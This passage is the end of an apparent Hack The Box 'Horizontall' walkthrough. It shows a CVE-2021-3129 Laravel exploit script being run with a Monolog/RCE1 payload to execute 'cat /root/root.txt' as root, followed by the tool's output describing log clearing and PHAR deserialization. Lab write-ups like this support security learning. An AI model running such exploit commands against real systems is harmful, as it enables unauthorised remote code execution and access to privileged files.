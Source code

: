 That was nice and simple. The exploit ran and gave us the root id back. Let's grab the flag:

```text
┌──(root💀kali)-[~/htb/horizontall/CVE-2021-3129_exploit]
└─# ./exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

a<HIDDEN>6

[i] Trying to clear logs
[+] Logs cleared
```

That was an interesting box, I hope you enjoyed it.

See you next time.
